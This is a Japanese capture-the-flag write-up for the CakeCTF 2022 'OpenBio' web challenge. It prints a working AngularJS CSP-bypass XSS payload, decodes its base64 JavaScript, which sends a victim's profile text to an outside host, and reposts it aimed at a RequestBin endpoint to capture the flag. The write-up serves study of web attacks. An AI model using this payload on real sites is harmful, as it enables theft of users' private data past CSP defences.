

# OpenBio:web:135pts
CSP + httponly = [invulnerable](http://web1.2022.cakectf.com:8003/)  

[openbio_357d4ebeb546dfeef981399a5ff12076.tar.gz](openbio_357d4ebeb546dfeef981399a5ff12076.tar.gz)  

# Solution
リンクとソースが渡される。  
アクセスするとユーザ登録ページがあり、ログインするとテキストをプロフィールに設定できるようだ。  
satoki - OpenBio  
  
ユーザ名を`satoki`にすると、プロフィールのリンクは`http://web1.2022.cakectf.com:8003/profile/satoki`となる。  
問題名の通りCSPなどが入っており、任意のスクリプトは実行できない。  
ただしCSPに甘い箇所があるのでバイパス可能であり、その後に右端に見えるreCAPTCHAなどを使うと予想していた。  
ここで、プロフィールをスパムとして報告するとクローラーがたどることから、各ユーザが自由に他者のプロフィールを閲覧できることに気づく。  
絶対に削除されているだろうが、ためしに作問者の`ptr-yudai`さんのプロフィールページを見る。  
  
プロフィールのテキスト部分を見ると以下のようであった。  
```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8">
        <title>ptr-yudai - OpenBio</title>
~~~
                <p class="uk-text-large"><script src="https://cdn.jsdelivr.net/npm/angular@1.8.3/angular.min.js"></script>
<div ng-app ng-csp>{{$eval.constructor('eval(atob("CiQoZG9jdW1lbnQpLnJlYWR5KGZ1bmN0aW9uKCkgewogICQuZ2V0KCcvJywgKGRhdGEpID0+IHsKICAgIGxldCByeCA9IC88dGV4dGFyZWEgY2xhc3MuKz4oLiopPFwvdGV4dGFyZWE+L2c7CiAgICBsZXQgYXJyID0gcnguZXhlYyhkYXRhKTsKICAgIGxldCBiaW8gPSBhcnJbMV07CiAgICBpZiAoYmlvLmluZGV4T2YoImZsYWciKSAhPT0gLTEpIHsKICAgICAgbG9jYXRpb24uaHJlZiA9ICJodHRwOi8vcG9ucG9ubWFydS50azoxODAwMi8/eD0iICsgYnRvYShiaW8pOwogICAgfSBlbHNlIHsKICAgICAgYWxlcnQoIlJlcG9ydCBtZSIpOwogICAgfQogIH0pOwp9KTsK"))')()}}</div>
zunda</p>
~~~
```
明らかにテスト時の解答が残っており、angularのCSPバイパスが見える。  
base64されたコードがあるので、デコードすると以下のようになった。  
```javascript
$(document).ready(function() {
  $.get('/', (data) => {
    let rx = /<textarea class.+>(.*)<\/textarea>/g;
    let arr = rx.exec(data);
    let bio = arr[1];
    if (bio.indexOf("flag") !== -1) {
      location.href = "http://ponponmaru.tk:18002/?x=" + btoa(bio);
    } else {
      alert("Report me");
    }
  });
});
```
`http://ponponmaru.tk:18002/`にbioを送信している。  
ここを自身のサーバに変え、base64で再びエンコードしプロフィールに設定する。  
投稿するものは以下になる(サーバは[RequestBin.com](https://requestbin.com/)を用いた)。  
```html
<script src="https://cdn.jsdelivr.net/npm/angular@1.8.3/angular.min.js"></script>
<div ng-app ng-csp>{{$eval.constructor('eval(atob("CiQoZG9jdW1lbnQpLnJlYWR5KGZ1bmN0aW9uKCkgewogICQuZ2V0KCcvJywgKGRhdGEpID0+IHsKICAgIGxldCByeCA9IC88dGV4dGFyZWEgY2xhc3MuKz4oLiopPFwvdGV4dGFyZWE+L2c7CiAgICBsZXQgYXJyID0gcnguZXhlYyhkYXRhKTsKICAgIGxldCBiaW8gPSBhcnJbMV07CiAgICBpZiAoYmlvLmluZGV4T2YoImZsYWciKSAhPT0gLTEpIHsKICAgICAgbG9jYXRpb24uaHJlZiA9ICJodHRwczovL3h4eHh4eHh4eHh4eHgueC5waXBlZHJlYW0ubmV0Lz94PSIgKyBidG9hKGJpbyk7CiAgICB9IGVsc2UgewogICAgICBhbGVydCgiUmVwb3J0IG1lIik7CiAgICB9CiAgfSk7Cn0pOwo="))')()}}</div>
satoki
```
プロフィールを報告すると以下のリクエストが自身のサーバに届いた。  
```
GET
/?x=WW91IGhhY2tlZCBtZSEgVGhlIGZsYWcgaXMgQ2FrZUNURntodHRwb25seT10cnVlX2QwM3NfbjB0X3ByMHQzY3RfVV8xbl9tNG55X2M0czNzIX0=
```
デコードすると以下のようになった。  
```
You hacked me! The flag is CakeCTF{httponly=true_d03s_n0t_pr0t3ct_U_1n_m4ny_c4s3s!}
```
flagが得られた。  
この新たな攻撃手法は、`ptr-yudai`さんを介したスクリプト実行なので**Cross-Yudai Scripting**と命名することとする。  

## CakeCTF{httponly=true_d03s_n0t_pr0t3ct_U_1n_m4ny_c4s3s!}